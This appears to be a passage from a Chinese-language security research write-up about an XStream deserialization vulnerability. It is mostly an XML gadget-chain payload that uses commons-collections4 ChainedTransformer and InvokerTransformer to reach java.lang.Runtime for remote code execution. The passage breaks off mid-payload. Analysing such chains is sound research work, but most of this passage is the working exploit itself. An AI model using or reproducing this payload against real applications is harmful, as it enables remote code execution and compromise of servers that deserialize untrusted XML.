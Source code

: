 当跟入到这里的时候，立马去看了一下transformer定义

![image-20210119114225281](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/144927-571757.png)

这就意味着可以将它赋值为ChainTransFormer打循环反射RCE，payload如下：

```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.messaging.saaj.packaging.mime.internet.MimePartDataSource'>
                        <part>
                            <mimePart>
                                <dataHead>
                                    <part>
                                        <msg>
                                            <it class="org.apache.commons.collections4.iterators.ObjectGraphIterator">
                                                <stack class="java.util.ArrayDeque" serialization="custom">
                                                    <unserializable-parents/>
                                                    <java.util.ArrayDeque>
                                                        <default/>
                                                        <int>0</int>
                                                    </java.util.ArrayDeque>
                                                </stack>
                                                <root class="java.lang.String">
                                                    <it>
                                                        <outer-class reference="../.."/>
                                                    </it>
                                                </root>
                                                <transformer class="org.apache.commons.collections4.functors.ChainedTransformer">
                                                    <iTransformers>
                                                        <org.apache.commons.collections4.functors.ConstantTransformer>
                                                            <iConstant class="java-class">java.lang.Runtime</iConstant>
                                                        </org.apache.commons.collections4.functors.ConstantTransformer>
                                                        <org.apache.commons.collections4.functors.InvokerTransformer>
                                                            <iMethodName>getMethod</iMethodName>
                                                            <iParamTypes>
                                                                <java-class>java.lang.String</java-class>
                                                                <java-class>[Ljava.lang.Class;</java-class>
                                                            </iParamTypes>
                                                            <iArgs>
                                                                <string>getRuntime</string>
                                                                <java-class-array/>
                                                            </iArgs>
                                                        </org.apache.commons.collections4.functors.InvokerTransformer>
                                                        <org.apache.commons.collections4.functors.InvokerTransformer>
                                                            <iMethodName>invoke</iMethodName>
                                                            <iParamTypes>
```